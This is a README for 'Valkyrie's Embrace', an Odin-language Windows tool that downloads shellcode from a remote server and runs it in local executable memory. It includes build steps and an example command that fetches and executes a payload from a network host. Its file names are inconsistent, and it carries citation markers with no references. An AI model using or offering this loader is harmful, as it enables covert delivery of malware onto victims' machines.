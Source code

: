 # Valkyrie's Embrace

![1712128365149](image/README/1712128365149.png)

## Overview

I was curious about a new language I saw on Youtube and decided to try my hand on it and repurposed an old `C `remote shellcode loader I had, into ODIN the Odin programming language that allows executing shellcode on a remote system. I named this as fun gesture do to the Norse Mythologies Programming language. Just like the Valkyries of Norse mythology, who selectively choose the fallen warriors to escort to the afterlife, this tool enables you to target and execute shellcode on chosen systems with precision and a little bit of stealth.

The tool establishes a connection to a remote server *(You Set that up yourself and if you don't know how to do it then you shouldn't be playing around with this in the first place ;)* ), it retrieves the shellcode payload, and executes it on the local machine.

## Why Odin and not another language...?

1. Odin is a systems programming language designed for high performance, modern systems, and data-oriented programming. As a remote shellcode loader, Valkyrie's Embrace would benefit from Odin's low-level control over memory layout and management.[7]
2. Odin has built-in support for custom memory allocators, which provides more control and flexibility compared to languages like C for a tool like this that interacts closely with memory.[12]
3. Odin provides quality-of-life improvements over C such as a built-in slice type, tagged unions, generics, and better error handling, while still allowing low-level systems programming.[2][11]
4. Odin has an engaged community and an open-source standard library, making it pleasant to work with for a passion project like this.[8]
5. Odin is a newer language exploring interesting design choices like built-in SOA data types. Using it for this project allows you to explore and evaluate Odin's unique features and approach.[2][7]

To compile Valkyrie's Embrace, you can go to these resources on installing and setting up Odin:

- Official Odin installation guide for Windows, macOS and Linux [here](https://odin-lang.org/docs/install/)
- Video tutorial on setting up Odin with SDL2 on Windows [here](https://www.youtube.com/watch?v=_PfYX4vvJh)
- Video guide on installing Odin on Linux [here](https://www.youtube.com/watch?v=5GxJiQx2UHo) 

Odin's combination of low-level control, modern features, and community engagement made it an appealing choice for me to create a small project like Valkyrie's Embrace. The official docs and community video guides provide good resources to help others get up and running with Odin.

## Features

- Establishes a TCP connection to a remote server
- Retrieves shellcode payload from the server
- Allocates executable memory for the shellcode
- Executes the shellcode on the local machine
- Supports Windows operating system only.

## Prerequisites

To compile and run Valkyrie's Embrace, you need to have the following:

- Odin programming language installed on your system
- A Windows operating system (the tool uses Windows API functions)

## Usage

1. Clone the repository:

```bash
git clone https://github.com/a7t0fwa7/valkyries-embrace.git
```

2. Navigate to the project directory:

```bash
cd src
```

3. Compile the Odin code:

```bash
odin build ValkiriesEmbrace.odin
```

4. Run the compiled executable with the required arguments:

```bash
./ValkiriesEmbrace.exe <RemoteIP> <RemotePort> <Resource>
```

- `<RemoteIP>`: The IP address of the remote server hosting the shellcode.
- `<RemotePort>`: The port number on which the remote server is listening.
- `<Resource>`: The resource path on the remote server where the shellcode is located.

## Example

Suppose you have a remote server with IP address `192.168.0.10` listening on port `8080`, and the shellcode is located at the resource path `/shellcode`. To execute the shellcode, run the following command:

```bash
./main.exe 192.168.0.10 8080 shellcode
```

Valkyrie's Embrace will connect to the remote server, retrieve the shellcode, and execute it on the local machine, embracing the target system with its payload.

## Code Structure

The project has the following directory structure:

```
valkyries-embrace/
├── main.odin
└── README.md
```

- `main.odin`: The main Odin source file containing the implementation of Valkyrie's Embrace.
- `README.md`: This file, providing an overview and usage instructions for the tool.

## Disclaimer

Valkyrie's Embrace is intended for educational and research purposes only. The authors and contributors are not responsible for any misuse or damage caused by this tool. Use it at your own risk and ensure that you have proper authorization before executing shellcode on any system.

## License

This project is licensed under the [MIT License](LICENSE).

## Contributing

Contributions are welcome! If you find any issues or have suggestions for improvements, please open an issue or submit a pull request.

## Acknowledgements

- The Odin programming language community for their support and resources.
- The cybersecurity community for their continuous efforts in researching and sharing knowledge.
- The Norse mythology for inspiring the name and theme of this tool.
